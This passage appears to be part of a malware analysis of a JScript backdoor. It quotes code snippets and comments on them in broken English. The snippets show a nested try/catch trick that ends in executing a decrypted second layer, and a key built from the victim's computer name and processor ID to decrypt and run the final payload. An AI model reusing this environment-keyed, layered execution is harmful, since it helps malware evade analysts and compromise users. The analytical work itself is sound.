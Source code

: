 ```js
            }
        };
        try {
            DebVal1 = DebVal1 + 830
        } catch (e5) {
            try {
                DebVal2 = DebVal2 - 529;
            } catch (e6) {
                try {
                    DebVal3 = DebVal3 / 108;
                } catch (rincbz62) {
                    exec(InitDecrypt(PayLayer2, OpAr, off, 4937));
                }
            }
        }
```
<h4>The second layer still content a function for getting the char from the int and the second loop that's only decryptable by the computer of the victim. That's so not possible to see after but looks like last step of JS backdoor with the configuration inside (parameters + final C2 to contact).</h4>

```js
    function Getkey()
    {
        try 
        {
            var ActXObj1 = GetActX("WScript.Shell");
            var p = ActXObj1.Environment("PROCESS");
            var NetActX = GetActX("WScript.Network");
            var result = NetActX.ComputerName + p("PROCESSOR_IDENTIFIER");
            return result;
        } 
        catch(e) {return false;}
    }
    [...]
    var k = Getkey();
    ShObj = "";
    proc = "";
    NetObj = "";
    IdProc = "";
    var lim = k.length;
    var tmp = k.split("");
    Ar[off] = GetCharFromInt(tmp[0]);
    var i = 1;
    do {Ar[off + i] = GetCharFromInt(tmp[i]);
    i = i + 1;
    } while (i < lim);
    k = "";
    tmp = [];
    Exec(Decrypt(FinalPayload, Ar, off + lim, 50360));
```
